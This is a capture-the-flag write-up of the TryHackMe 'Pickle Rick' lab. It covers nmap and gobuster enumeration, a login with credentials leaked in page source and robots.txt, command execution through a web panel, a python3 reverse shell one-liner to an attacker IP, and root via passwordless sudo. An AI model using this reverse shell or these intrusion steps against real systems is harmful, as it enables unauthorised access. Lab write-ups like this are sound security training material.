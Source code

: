 ```yaml
---
layout: single
title:  "Pickle Rick Writeup - TryHackMe"
date:   2021-04-04 04:00:00 -0400
classes: wide
categories: THM
tags:
 - Privesc
---
```


This time i'll be working with the room [Pickle Rick](https://www.tryhackme.com/room/picklerick) from **TryHackMe**. This is a free lab with an easy difficulty.

## Lab info

![Lab Info](/images/THM/PickleRick/00-room-info.png){: .align-center}

## Enumeration

All ports nmap scan: ```nmap -p- -sS --min-rate 5000 -n -v 10.10.123.34 -oG allPorts.gnmap```

```bash
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

Basic enumeration scripts for ports 22,80: ```nmap -sC -sV -p22,80 10.10.123.34 -oN ports.nmap```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-04 13:30 -04
Nmap scan report for 10.10.123.34
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:c4:23:86:8e:70:33:66:18:f0:84:e8:6b:93:eb:bc (RSA)
|   256 a9:25:85:0b:08:8f:30:36:36:9a:b2:3b:d6:bf:d1:07 (ECDSA)
|_  256 38:d9:59:3b:50:cd:b6:de:8d:60:06:bf:46:1e:d5:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Finally, let's run an http-enum script on port 80: ```nmap --script http-enum -p80 10.10.123.34 -oN webscan.nmap```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-04 13:31 -04
Nmap scan report for 10.10.123.34
Host is up (0.34s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file

Nmap done: 1 IP address (1 host up) scanned in 31.34 seconds
```

So, after all those scans we get:

* Webpage: http://10.10.123.34

![Web Page](/images/THM/PickleRick/15-web-page.png){: .align-center}

As a good habit, you may want to check the source code of the webpages.

![Web Page Source Code](/images/THM/PickleRick/21-username.png){: .align-center}

And just like that we get the username ```R1******```

---

* Login: http://10.10.123.34/login.php

![Login Page](/images/THM/PickleRick/20-login-page.png){: .align-center}

---

* Robots file: http://10.10.123.34/robots.txt

![robots](/images/THM/PickleRick/24-robots-web.png){: .align-center}

In robots.txt we see ```Wub********```, let's save it in case it's useful later. 

Just to be sure, now we will launch a gobuster directory scan in case nmap missed something. 

Gobuster scan: ```gobuster dir -u http://10.10.123.34 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 300 --no-error```

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.34
[+] Method:                  GET
[+] Threads:                 300
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/04 13:55:58 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.123.34/assets/]
/server-status        (Status: 403) [Size: 300]

===============================================================
2021/04/04 14:04:25 Finished
===============================================================
```

Gobuster will find ```/assets``` directory that does not contain anything interesting.


## Gainning access

Moving on to the login page, using the info gathered before, we could try to use ```R1*****``` as username and ```Wub********``` as password... and it actually works.

The next we will see is a Command Panel and an input to run commands.

![Command Panel](/images/THM/PickleRick/26-command-panel.png){: .align-center}

If we try to navigate to another tab, we get the message: *Only the **REAL** rick can view this page...*

![Denied](/images/THM/PickleRick/33-denied.png){: .align-center}

Back at the Command Panel, let's assume we can run system commands and try a few.

![whoami](/images/THM/PickleRick/27-command-whoami.png){: .align-center}

![ls](/images/THM/PickleRick/30-command-panel-ls.png){: .align-center}

Running ```cat Sup3rS3cretPickl3Ingred.txt``` the following message will show up. 

![cat](/images/THM/PickleRick/28-command-cat.png){: .align-center}

Now we know some commands are being blocked, but ```less``` is not one of them. 

![First Flag](/images/THM/PickleRick/29-first-ing.png){: .align-center}

**First Ingredient:** ```mr. m*******```

## Getting a shell

For the reverse shell, first we want to make sure the command we are going to use exist in the system and is allowed. Trying python gets no results but python3 will do the trick. 

Using this [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) as a reference, we craft the following command:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.0.103",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now, we open a listener on port 443 with netcat and run our command to get the shell.

![Shell](/images/THM/PickleRick/34-first-shell.png){: .align-center}

## Privilege Escalation

This is the easiest part, the first thing we could do is check the ```www-data``` user privileges with ```sudo -l```. We will find out that we can execute commands as root without providing password.

Running ```sudo su``` will make us root user.

![Privesc](/images/THM/PickleRick/37-privesc.png){: .align-center}

The last thing would be locating the other two ingredients. If we check the  ```/home``` path we will see rick directory inside along with the second ingredient.

![Second Flag](/images/THM/PickleRick/35-second-ing.png){: .align-center}

**Second Ingredient:** ```1 je*******```

And the last ingredient could be found in the home directory for root or using ```find```.

```bash
find / -type f -name "*.txt" | grep -v "usr"
```
![Third Flag](/images/THM/PickleRick/40-third-ing.png){: .align-center}

**Third Ingredient:** ```fle*******```

And that's all for this lab.